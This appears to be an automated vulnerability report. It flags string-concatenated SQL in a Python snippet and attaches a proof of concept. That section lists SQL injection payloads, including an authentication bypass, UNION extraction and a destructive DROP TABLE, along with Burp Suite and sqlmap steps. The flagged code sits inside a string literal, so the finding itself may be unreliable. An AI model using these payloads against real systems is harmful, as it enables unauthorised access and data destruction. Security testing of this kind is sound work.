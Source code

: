 
#### 🔍 Technical Details

**Vulnerable Code Snippet**:

```python
        sql_code = """
        def get_user(username):
            query = "SELECT * FROM users WHERE name = '" + username + "'"
            return execute_query(query)
        """
```

**Vulnerability Analysis**:
SQL query with string concatenation

---

#### ✅ Verification

**Validation Method**: Automated + Pattern Analysis

**Verification Steps Completed**:
- ✓ Checked for parameterized queries - NOT FOUND
- ✓ Detected string concatenation in SQL query
- ✓ User input flows into SQL query
- ✓ Generated proof of concept

---

#### 🎯 Proof of Concept

```
# SQL Injection Proof of Concept
# Target: core/z3_verification_module.py
# Line: 521

## Test Payloads:
1. ' OR '1'='1
2. admin'--
3. ' UNION SELECT NULL--
4. '; DROP TABLE users--

## Expected Behavior:
- Payload 1: Should bypass authentication
- Payload 2: Comment-based injection
- Payload 3: Union-based data extraction
- Payload 4: Destructive (DO NOT USE in production)

## Verification Steps:
1. Intercept the request with Burp Suite
2. Replace user input with test payload
3. Observe if SQL logic is altered
4. Use sqlmap for automated testing: sqlmap -u "URL" -p "PARAM"

```
